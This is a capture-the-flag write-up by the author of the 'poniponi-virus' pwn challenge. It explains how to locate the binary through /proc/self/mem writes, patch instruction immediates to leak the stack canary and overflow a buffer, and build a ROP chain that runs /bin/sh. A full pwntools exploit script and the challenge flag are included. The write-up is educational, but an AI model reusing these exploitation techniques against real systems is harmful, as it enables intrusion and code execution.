






# poniponi-virus

To test the chall run `$ python healthcheck.py`.

## Write-up

### Solution

TLDR: Find binary base by checking the return value of write ->
partially overwrite mov instructions with b"poni" to get leaks
and a stack buffer overflow -> rop.

The idea of writing to `/proc/self/mem` is from googleCTF's
write-flag-where but it's mentioned in the chall's description that this
chall is my spin on their idea, so no
plagiarism there :P. The `/proc/self/mem` file maps the memory of our
process to a file but it's a lower-level interface that ignores memory
permissions, so we can even write to memory pages that are not marked as
writeable. Btw, this is how you can implement software breakpoints in
a debugger - by replacing instruction opcodes with 0xcc (INT3) bytes.

Other than that there are two ideas behind the chall:

1. The `write` syscall returns -1 when writing an invalid address
instead of segfaulting.

2. The `brk` syscall creates the heap (or the main arena in glibc
lingo) small offset from our binary, even with PIE and ASLR, so it's very bruteforcable. In
the past there was a 1 in 32M chance for a hit, now it's a 1 in 1G
chance for x64. It got improved in the kernel version 6.9:
[link](https://elixir.bootlin.com/linux/v6.9-rc1/source/arch/x86/kernel/process.c#L1001).
[And there's kernel 6.8 for comparision.](https://elixir.bootlin.com/linux/v6.8.12/source/arch/x86/kernel/process.c#L1031)


```c
// Improved kernel 6.9 version.
unsigned long arch_randomize_brk(struct mm_struct *mm)
{
	if (mmap_is_ia32())
		return randomize_page(mm->brk, SZ_32M);

	return randomize_page(mm->brk, SZ_1G);
}

// Kernel 6.8 version. The size 0x02000000 is the same as 32MiB.
unsigned long arch_randomize_brk(struct mm_struct *mm)
{
	return randomize_page(mm->brk, 0x02000000);
}
```

The chall was made so it's not that hard to hit either way since
we didn't know on what kernel version will the infra be.

In the program's loop we get 0x700 chances to write b"poni" to an
arbitrary address. Our first problem to overcome is that we don't
have leaks and we only control the `n` variable. So we can write
our string to a relative offset of the heap.
```c
        // Error: Too many ponis on the stack. Switching to heap allocation.
        char *h = malloc(0);
        // Poni-ter arithmetic detected! (poni++)^10
        lseek(ponifile, ((size_t)h + n), SEEK_SET);
        if (write(ponifile, "poni", 4) == -1) {
            puts("I just don't know what went wrong... :<");
        }
```

If you're wondering, the `malloc(0)` is there just for giggles. It
doesn't change anything - as long as malloc in glibc is concerned,
this is the same as doing `malloc(16)`.

~~Writing to the stack or dynamically loaded libraries is off-limits because
of ASLR~~ (check out the post-mortem). But what we can potentially write to is our binary because
of the two facts about brk and write syscalls mentioned at the beginning
of the write-up!

Firstly, we need to find the base address of our executable binary.
We do it with writes in the increments of 0xb1000 cuz that's the size of our binary after loading it
into memory. 




We have 0x700 tries in the loop and this is more than enough even
assuming 1GiB of randomization, since:

```python
In [1]: hex(2**30 // 0xb1000)
Out[1]: '0x5c9'
```

If the error message is printed it means that there's
nothing mapped to the memory address we tried to write to.
To visualize, this is what we're trying to do:




```python
    # Size of the first allocation done internally by glibc.
    first_alloc_offset = 0x1860
    i = 1
    # Size of our executable.
    bin_size = 0xb1000
    # Offset to the beginning of the heap.
    heap_base = -first_alloc_offset

    # Search where the binary is in memory.
    # We do it in multiples of bin_size so it's not that hard to
    # find it.
    p = log.progress("searching for binary")
    while True:
        offset = heap_base - i*bin_size
        p.status(f"trying {i=} {offset=}")
        io.sendline(f"{offset}".encode())
        
        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            break
        
        heap_base -= 0x20 # malloc chunk size
        i += 1
    p.success(f"binary was found at offset {offset}")
    
    # Binary search for the base of the binary.
    l = offset - heap_base
    r = l + bin_size
    p = log.progress("searching for binary base")
    while l <= r:
        m = (l+r) // 2
        p.status(f"trying {l=} {r=} {m=}")
        io.sendline(f"{m}".encode())

        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            l = m+1
        else:
            r = m-1
        l -= 0x20
        r -= 0x20
    bin_base_offset = m - bin_size
```

It's important to notice that we make a call to malloc every iteration of
the loop, so we need to subtract 0x20 from the `heap_base` every time.
There's also a small chance the exploit will fail because in the process of
finding the binary we overwrote some random place in memory.
Now that we found the offset to the base address of our binary, we can start
with overwriting whatever we want with it.

The intended and simplest target to overwrite is the count in the read and write functions.
This way we can get leaks and stack buffer overflows.
You can also see in the source code that I specifically cast them to char to avoid issues with
too long writes.
```c
        size_t len = sizeof poni - 1;
        char to_write = len;
        write(1, poni, to_write);
        
        int size = BUF_SIZE;
        char s[BUF_SIZE] = {};
        char to_read = size-1;
        read(0, s, to_read);
```

We can see that the `movq $4, ...` instruction is at offset main+3627. This instruction
is 8 bytes long, where the 4 bytes we move are at the. So we want to write poni at address
main+3627+4.




And analogously we do the same for movl before the read function. Notice that there
the compiler used a different instruction that is 7 bytes long. So we do +3 when
calculating the offsets instead.




```python
    # Overwrite the mov instructions.
    bin_base_offset -= 0x20
    read_movl_offset = exe.sym['main']+3670+3 - exe.address
    io.sendline(f"{bin_base_offset+read_movl_offset}".encode())

    bin_base_offset -= 0x20
    write_movq_offset = exe.sym['main']+3627+4 - exe.address
    io.sendline(f"{bin_base_offset+write_movq_offset}".encode())

    io.recvuntil(b"poni")
    io.recv(21)
    stack = u64(io.recv(8))
    canary = u64(io.recv(8))
    info(f"stack: {hex(stack)}")
    info(f"canary: {hex(canary)}")
```

After we leak all the stuff we need it all comes down to a simple rop chain.

```python
    rbp = p64(stack+0x20)
    # 0x0000000044c07e: pop rsi; ret;
    pop_rsi = 0x0000000044c07e
    # 0x0000000042c05c: pop rax; ret;
    pop_rax = 0x0000000042c05c
    # 0x0000000040478d: pop rdi; pop rbp; ret;
    pop_rdi_rbp = 0x0000000040478d
    # 0x000000004025cc: syscall;
    syscall = 0x000000004025cc
    
    payload = b"/bin/sh\x00".rjust(24, b"\xfa") + p64(canary) + rbp + \
        p64(pop_rsi) + p64(0) + \
        p64(pop_rax) + p64(0x3b) + \
        p64(pop_rdi_rbp) + p64(stack-0x20) + p64(0x6162) + \
        p64(syscall)
    io.sendline(payload)
    info("payload sent")
    io.sendlineafter(b"poni", f"{0xc0ffee}".encode())
    io.interactive()
```

And this is the full exploit:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./poni")

context.binary = exe
context.terminal = "alacritty -e".split()


def conn():
    if args.LOCAL:
        if args.GDB:
            io = gdb.debug([exe.path], aslr=True, api=False, gdbscript="""
            set follow-fork-mode parent
            """)
        else:
            io = process([exe.path])
            #gdb.attach(io)
    else:
        io = remote("127.0.0.1", 1337)
    return io


def main():
    io = conn()
    p = log.progress("loading")
    # Skip all the printed ponis.
    io.recvuntil(b"!!!\nponi")
    p.success("intro finished")

    # Size of the first allocation done internally by glibc.
    first_alloc_offset = 0x1860
    i = 1
    # Size of our executable.
    bin_size = 0xb1000
    # Offset to the beginning of the heap.
    heap_base = -first_alloc_offset

    # Search where the binary is in memory.
    # We do it in multiples of bin_size so it's not that hard to
    # find it.
    p = log.progress("searching for binary")
    while True:
        offset = heap_base - i*bin_size
        p.status(f"trying {i=} {offset=}")
        io.sendline(f"{offset}".encode())
        
        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            break
        
        heap_base -= 0x20 # malloc chunk size
        i += 1
    p.success(f"binary was found at offset {offset}")

    # Binary search for the base of the binary.
    l = offset - heap_base
    r = l + bin_size
    p = log.progress("searching for binary base")
    while l <= r:
        m = (l+r) // 2
        p.status(f"trying {l=} {r=} {m=}")
        io.sendline(f"{m}".encode())

        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            l = m+1
        else:
            r = m-1
        l -= 0x20
        r -= 0x20
    bin_base_offset = m - bin_size
    p.success(f"binary base found at {hex(bin_base_offset)=}")

    # Overwrite the mov instructions.
    bin_base_offset -= 0x20
    read_movl_offset = exe.sym['main']+3670+3 - exe.address
    io.sendline(f"{bin_base_offset+read_movl_offset}".encode())

    bin_base_offset -= 0x20
    write_movq_offset = exe.sym['main']+3627+4 - exe.address
    io.sendline(f"{bin_base_offset+write_movq_offset}".encode())

    io.recvuntil(b"poni")
    io.recv(21)
    stack = u64(io.recv(8))
    canary = u64(io.recv(8))
    info(f"stack: {hex(stack)}")
    info(f"canary: {hex(canary)}")

    rbp = p64(stack+0x20)
    # 0x0000000044c07e: pop rsi; ret;
    pop_rsi = 0x0000000044c07e
    # 0x0000000042c05c: pop rax; ret;
    pop_rax = 0x0000000042c05c
    # 0x0000000040478d: pop rdi; pop rbp; ret;
    pop_rdi_rbp = 0x0000000040478d
    # 0x000000004025cc: syscall;
    syscall = 0x000000004025cc
    
    payload = b"/bin/sh\x00".rjust(24, b"\xfa") + p64(canary) + rbp + \
        p64(pop_rsi) + p64(0) + \
        p64(pop_rax) + p64(0x3b) + \
        p64(pop_rdi_rbp) + p64(stack-0x20) + p64(0x6162) + \
        p64(syscall)
    io.sendline(payload)
    info("payload sent")
    io.sendlineafter(b"poni", f"{0xc0ffee}".encode())
    io.interactive()


if __name__ == "__main__":
    main()
```

### Post-mortem

Funnily enough, even though the flag was `BtSCTF{I_really_hope_you_solved_it_the_intended_way}`
some people didn't notice the intended path and did some crazy stuff instead, which were way more cool.
This is what one player did:



One player called lmongol @0ur4n05 on the Discord server was able to to find the stack address,
which now seems obvious but I didn't even consider it.



